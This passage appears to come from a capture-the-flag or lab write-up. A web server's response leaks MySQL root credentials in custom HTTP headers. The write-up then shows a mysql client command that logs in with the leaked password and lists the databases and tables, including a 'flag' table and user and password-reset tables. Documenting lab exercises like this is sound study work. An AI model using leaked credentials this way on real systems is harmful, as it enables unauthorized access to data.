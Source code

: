 ```text
HTTP/1.1 302 Found
Date: Thu, 22 Jul 2021 23:05:39 GMT
Server: Apache/2.4.18 (Ubuntu)
X-DB-Key: x41x41x412019!
X-DB-User: root
X-DB-name: mysql
Location: 500.php
Content-Length: 0
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```
{% endhint %}

{% tabs %}
{% tab title="mysql-client" %}
```bash
mysql --host=172.16.64.81 \ 
      --user=root \
      --password=x41x41x412019! \
      --port 13306 mysql
```
{% endtab %}

{% tab title="Second Tab" %}
```bash
> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cmsbase            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.143 sec)
> use cmsbase;
> show tables;
+----------------------------+
| Tables_in_cmsbase          |
+----------------------------+
| flag                       |
| sqlmapfile                 |
| tbl_1_actions_log          |
| tbl_1_categories           |
| tbl_1_categories_relations |
| tbl_1_downloads            |
| tbl_1_files                |
| tbl_1_files_relations      |
| tbl_1_folders              |
| tbl_1_groups               |
| tbl_1_members              |
| tbl_1_members_requests     |
| tbl_1_notifications        |
| tbl_1_options              |
| tbl_1_password_reset       |
| tbl_1_users                |
| tbl_actions_log            |
| tbl_categories             |
| tbl_categories_relations   |
| tbl_downloads              |
| tbl_files                  |
| tbl_files_relations        |
```